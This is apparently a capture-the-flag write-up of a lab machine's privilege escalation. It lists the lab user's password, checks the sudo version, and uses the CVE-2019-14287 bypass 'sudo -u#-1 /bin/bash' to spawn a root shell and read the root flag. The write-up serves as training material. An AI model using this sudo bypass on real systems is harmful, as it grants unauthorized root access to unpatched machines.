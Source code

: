 <aside>
🔥 uname: james pass: hackerrules!

</aside>

## **Privilege escalation**

We checked for the permission the user has with “sudo -l” command.

![](https://miro.medium.com/v2/resize:fit:875/1*mdUMVLX4a4JZ1UXETEq1vA.png)

It looks like our user is not allowed to run /bin/bash as root since we have a ! root. However, this looks weird as the first all means our user can run /bin/bash as any user. This is interesting, perhaps we can find a way to exploit this.

As luck would have it, a google search returns us something we might be able to use to gain root privileges.

We searched on google, and we got a vulnerability for Sudo for version 1.8, so we checked the version of sudo.

![](https://miro.medium.com/v2/resize:fit:875/1*pazfmqeTKgAKAwxsbRoX_Q.png)

```bash
**sudo -V**
```

![](https://miro.medium.com/v2/resize:fit:403/1*bBPNYaJ-M3Pc9kC_Ck6yGg.png)

According to https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules and can cause incorrect logging by invoking sudo with a crafted user ID. For example, this allows bypass of! root configuration, and USER= logging, for a sudo -u \#$((0xffffffff)) command.

Our sudo version is lower than 1.8.28, so we can exploit the machine. Using the exploit we found, we can indeed spawn a root shell and get our root flag.

**sudo -u#-1 /bin/bash**

![](https://miro.medium.com/v2/resize:fit:430/1*cmXotFcgqUff3vysAcwzuQ.png)

We are root now!

**cd /root**

**ls**

**cat root.txt**

![](https://miro.medium.com/v2/resize:fit:875/1*cDrDbcCLW9PRK2bsa9NJfQ.png)

**b53a02f55b57d4439e3341834d70c062s**

**Done!!!!!!**